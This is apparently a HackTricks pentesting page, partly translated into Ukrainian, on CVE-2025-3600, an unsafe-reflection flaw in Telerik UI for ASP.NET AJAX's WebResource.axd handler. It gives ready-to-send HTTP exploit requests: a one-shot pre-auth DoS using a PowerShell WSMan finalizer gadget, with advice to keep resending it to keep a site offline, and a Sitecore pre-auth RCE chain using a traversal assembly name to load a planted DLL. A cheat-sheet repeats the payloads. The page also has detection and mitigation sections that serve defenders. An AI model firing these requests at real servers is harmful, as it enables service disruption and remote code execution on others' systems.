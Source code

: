 # Telerik UI for ASP.NET AJAX – Unsafe Reflection via WebResource.axd (type=iec)

{{#include ../../banners/hacktricks-training.md}}

> Pre‑auth виконання конструктора в обробнику кешу Image Editor Telerik UI for ASP.NET AJAX дозволяє універсальний DoS і, у багатьох додатках, pre‑auth RCE через ціль‑специфічні гаджети (CVE-2025-3600).

## TL;DR

- Affected component/route: Telerik.Web.UI.WebResource.axd with query type=iec (Image Editor cache handler). Exposed pre‑auth in many products.
- Primitive: Атакуючий контролює ім'я типу (prtype). Обробник резолвить його за допомогою Type.GetType() та викликає Activator.CreateInstance() перед перевіркою безпеки типу інтерфейсу. Буде виконано будь‑який публічний параметр‑безпараметричний конструктор .NET типу.
- Impact:
  - Universal pre‑auth DoS with a .NET framework gadget (PowerShell WSMan finalizer).
  - Часто ескалує до pre‑auth RCE в реальних розгортаннях шляхом зловживання app‑specific гаджетами, особливо insecure AppDomain.AssemblyResolve handlers.
  - Fix: Update to Telerik UI for ASP.NET AJAX 2025.1.416+ or remove/lock the handler.

## Affected versions

- Telerik UI for ASP.NET AJAX versions 2011.2.712 through 2025.1.218 (inclusive) are vulnerable.
- Fixed in 2025.1.416 (released 2025-04-30). Оновіть негайно або видаліть/заблокуйте цей обробник.

## Affected surface and quick discovery

- Check exposure:
- GET /Telerik.Web.UI.WebResource.axd should return something other than 404/403 if the handler is wired.
- Inspect web.config for handlers mapping to Telerik.Web.UI.WebResource.axd.
- Trigger path for the vulnerable code-path requires: type=iec, dkey=1, and prtype=<AssemblyQualifiedType>.

Example probe and generic trigger:
```http
GET /Telerik.Web.UI.WebResource.axd?type=iec&dkey=1&prtype=Namespace.Type, Assembly
```
Примітки
- Деякі PoCs використовують dtype; реалізація перевіряє dkey=="1" для потоку завантаження.
- prtype має бути assembly-qualified або розв'язуваним у поточному AppDomain.

## Корінна причина – unsafe reflection в ImageEditorCacheHandler

Потік завантаження кешу Image Editor створює екземпляр типу, переданого в prtype, і лише потім приводить його до ICacheImageProvider та перевіряє ключ завантаження. Конструктор вже виконався, коли перевірка не пройшла.

<details>
<summary>Відповідний декомпільований потік</summary>
```csharp
// entrypoint
public void ProcessRequest(HttpContext context)
{
string text = context.Request["dkey"];           // dkey
string text2 = context.Request.Form["encryptedDownloadKey"]; // download key
...
if (this.IsDownloadedFromImageProvider(text)) // effectively dkey == "1"
{
ICacheImageProvider imageProvider = this.GetImageProvider(context); // instantiation happens here
string key = context.Request["key"];
if (text == "1" && !this.IsValidDownloadKey(text2))
{
this.CompleteAsBadRequest(context.ApplicationInstance);
return; // cast/check happens after ctor has already run
}
using (EditableImage editableImage = imageProvider.Retrieve(key))
{
this.SendImage(editableImage, context, text, fileName);
}
}
}

private ICacheImageProvider GetImageProvider(HttpContext context)
{
if (!string.IsNullOrEmpty(context.Request["prtype"]))
{
return RadImageEditor.InitCacheImageProvider(
RadImageEditor.GetICacheImageProviderType(context.Request["prtype"]) // [A]
);
}
...
}

public static Type GetICacheImageProviderType(string imageProviderTypeName)
{
return Type.GetType(string.IsNullOrEmpty(imageProviderTypeName) ?
typeof(CacheImageProvider).FullName : imageProviderTypeName); // [B]
}

protected internal static ICacheImageProvider InitCacheImageProvider(Type t)
{
// unsafe: construct before enforcing interface type-safety
return (ICacheImageProvider)Activator.CreateInstance(t); // [C]
}
```
</details>

Примітив експлуатації: Керований рядок типу → Type.GetType resolves it → Activator.CreateInstance runs its public parameterless constructor. Навіть якщо запит потім відхилено, побічні ефекти гаджета вже відбулися.

## Універсальний DoS gadget (не вимагає специфічних для застосунку gadgets)

Class: System.Management.Automation.Remoting.WSManPluginManagedEntryInstanceWrapper in System.Management.Automation (PowerShell) має фіналізатор, який disposes an uninitialized handle, викликаючи необроблене виключення під час фіналізації GC. Це надійно спричинює крах IIS worker process незабаром після інстанціації.

One‑shot DoS request:
```http
GET /Telerik.Web.UI.WebResource.axd?type=iec&dkey=1&prtype=System.Management.Automation.Remoting.WSManPluginManagedEntryInstanceWrapper,+System.Management.Automation,+Version%3d3.0.0.0,+Culture%3dneutral,+PublicKeyToken%3d31bf3856ad364e35
```
Notes
- Продовжуйте надсилати періодично, щоб утримувати сайт офлайн. Ви можете спостерігати, як constructor спрацьовує у debugger; crash відбувається під час finalization.

## From DoS to RCE – escalation patterns

Unsafe constructor execution відкриває багато target‑specific gadgets і ланцюжків. Шукайте:

1) Parameterless constructors that process attacker input
- Some ctors (or static initializers) immediately read Request query/body/cookies/headers and (de)serialize them.
- Example (Sitecore): a ctor chain reaches GetLayoutDefinition() which reads HTTP body "layout" and deserializes JSON via JSON.NET.

2) Constructors that touch files
- Ctros that load or deserialize config/blobs from disk can be coerced if you can write to those paths (uploads/temp/data folders).

3) Constructors performing app-specific ops
- Resetting state, toggling modules, or terminating processes.

4) Constructors/static ctors that register AppDomain event handlers
- Many apps add AppDomain.CurrentDomain.AssemblyResolve handlers that build DLL paths from args.Name without sanitization. If you can influence type resolution you can coerce arbitrary DLL loads from attacker‑controlled paths.

5) Forcing AssemblyResolve via Type.GetType
- Request a non-existent type to force CLR resolution and invoke registered (possibly insecure) resolvers. Example assembly-qualified name:
```
This.Class.Does.Not.Exist, watchTowr
```
6) Фіналізатори з руйнівними побічними ефектами
- Деякі типи видаляють файли з фіксованим шляхом у фіналізаторах. У поєднанні з переходом за посиланнями або передбачуваними шляхами це може дозволити локальне підвищення привілеїв у певних середовищах.

## Приклад pre‑auth RCE ланцюга (Sitecore XP)

- Step 1 – Pre‑auth: Викличте тип, чий static/instance ctor реєструє небезпечний обробник AssemblyResolve (наприклад, Sitecore’s FolderControlSource у ControlFactory).
- Step 2 – Post‑auth: Отримайте запис у resolver-probed директорію (наприклад, через auth bypass або ненадійне завантаження) і розмістіть шкідливий DLL.
- Step 3 – Pre‑auth: Використайте CVE‑2025‑3600 з неіснуючим типом та ім'ям збірки, що містить traversal, щоб примусити резольвер завантажити ваш розміщений DLL → виконання коду під IIS worker.

Trigger examples
```http
# Load the insecure resolver (no auth on many setups)
GET /-/xaml/Sitecore.Shell.Xaml.WebControl

# Coerce the resolver via Telerik unsafe reflection
GET /Telerik.Web.UI.WebResource.axd?type=iec&dkey=1&prtype=watchTowr.poc,+../../../../../../../../../watchTowr
```
## Валідація, пошук і нотатки DFIR

- Safe lab validation: Fire the DoS payload and watch for app pool recycle/unhandled exception tied to the WSMan finalizer.
- Hunt in телеметрії:
  - Requests to /Telerik.Web.UI.WebResource.axd with type=iec and odd prtype values.
  - Failed type loads and AppDomain.AssemblyResolve events.
  - Sudden w3wp.exe crashes/recycles following such requests.

## Mitigation

- Patch to Telerik UI for ASP.NET AJAX 2025.1.416 or later.
- Remove or restrict exposure of Telerik.Web.UI.WebResource.axd where possible (WAF/rewrites).
- Ignore or harden prtype handling server-side (upgrade applies proper checks before instantiation).
- Audit and harden custom AppDomain.AssemblyResolve handlers. Avoid building paths from args.Name without sanitization; prefer strong-named loads or whitelists.
- Constrain upload/write locations and prevent DLL drops into probed directories.
- Monitor for non-existent type load attempts to catch resolver abuse.

## Cheat‑sheet

- Presence check:
  - GET /Telerik.Web.UI.WebResource.axd
  - Look for handler mapping in web.config
- Exploit skeleton:
```http
GET /Telerik.Web.UI.WebResource.axd?type=iec&dkey=1&prtype=<TypeName,+Assembly,+Version=..., +PublicKeyToken=...>
```
- Universal DoS:
```http
...&prtype=System.Management.Automation.Remoting.WSManPluginManagedEntryInstanceWrapper,+System.Management.Automation,+Version%3d3.0.0.0,+Culture%3dneutral,+PublicKeyToken%3d31bf3856ad364e35
```
- Тригер резолвера:
```
This.Class.Does.Not.Exist, watchTowr
```
## Пов'язані техніки

- IIS post-exploitation, .NET key extraction, та in‑memory loaders:

{{#ref}}
iis-internet-information-services.md
{{#endref}}

- ASP.NET ViewState deserialization та machineKey abuses:

{{#ref}}
../../pentesting-web/deserialization/exploiting-__viewstate-parameter.md
{{#endref}}

## Джерела

- [watchTowr labs – More than DoS: Progress Telerik UI for ASP.NET AJAX Unsafe Reflection (CVE-2025-3600)](https://labs.watchtowr.com/more-than-dos-progress-telerik-ui-for-asp-net-ajax-unsafe-reflection-cve-2025-3600/)
- [Black Hat USA 2019 – SSO Wars: The Token Menace (Mirosh & Muñoz) – DoS gadget background](https://i.blackhat.com/USA-19/Wednesday/us-19-Munoz-SSO-Wars-The-Token-Menace-wp.pdf)
- [ZDI – Abusing arbitrary file deletes to escalate privilege](https://www.zerodayinitiative.com/blog/2022/3/16/abusing-arbitrary-file-deletes-to-escalate-privilege-and-other-great-tricks)
- [watchTowr – Is “B” for Backdoor? (Sitecore chain CVE-2025-34509)](https://labs.watchtowr.com/is-b-for-backdoor-pre-auth-rce-chain-in-sitecore-experience-platform/)

{{#include ../../banners/hacktricks-training.md}}
